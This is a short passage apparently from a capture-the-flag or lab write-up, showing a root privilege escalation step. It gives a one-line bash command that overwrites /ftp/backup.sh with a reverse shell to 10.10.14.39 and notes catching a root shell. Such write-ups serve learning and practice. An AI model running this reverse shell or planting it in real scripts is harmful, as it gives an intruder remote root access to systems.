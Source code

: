 
rewriting the `/ftp/backup.sh` to have a reverse shell in 
```bash
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.39/1338 0>&1'" > /ftp/backup.sh
```
catching a `root` reverse shell 
![[Pasted image 20240530142208.png]]